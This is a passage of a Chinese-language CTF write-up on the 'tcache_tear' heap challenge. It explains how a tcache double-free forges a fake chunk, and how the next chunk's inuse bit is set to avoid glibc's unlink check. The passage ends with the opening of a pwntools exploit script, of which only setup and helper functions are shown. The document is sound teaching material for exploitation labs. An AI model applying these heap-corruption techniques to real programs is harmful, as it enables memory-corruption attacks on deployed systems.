 * 即使伪造了一个fakechunk，还是会出现`corrupted size vs. prev_size`问题，unlink中的检查报错

  ```c
  tcache_dup(0x50, p64(0)+p64(0x21)+p64(0)*2, (name_addr+0x500))
  ```

  ```c
  unlink_chunk (mstate av, mchunkptr p)
  {
    if (chunksize (p) != prev_size (next_chunk (p)))
      malloc_printerr ("corrupted size vs. prev_size");
  ```

  其实这里我们一开始就思考错了方向，其实我们这里是卡在了unlink上，但正常我们后面伪造的chunk应该都是分配了，没有free，inuse应该都为1，跳到外层看一下代码：
  
  这里会先判断nextchunk是不是topchunk，接下来会获取nextchunk的nextchunk，然后获取inuse位，我们期望的情况是返回1，这样就不会进入下面的unlink操作，所以需要构造两个chunk
  
  ```c
  /* check/set/clear inuse bits in known places */
  #define inuse_bit_at_offset(p, s)					      \
    (((mchunkptr) (((char *) (p)) + (s)))->mchunk_size & PREV_INUSE)
  ```
  
  ```c
  if (nextchunk != av->top) {
    /* get and clear inuse bit */
    nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
  
    /* consolidate forward */
    if (!nextinuse) {
  unlink_chunk (av, nextchunk);
  size += nextsize;
    } else
  clear_inuse_bit_at_offset(nextchunk, 0);
  ```
  
  

exp：

```python
from pwn import *

elf_path = './tcache_tear'
elf = ELF(elf_path, checksec=False)
libc = ELF('./libc-2.27.so')
context(arch=elf.arch, os=elf.os, log_level="debug")
ip = 'node5.buuoj.cn'
port = 26663

local = 1
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
rl      = lambda                    :p.recvline()
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
```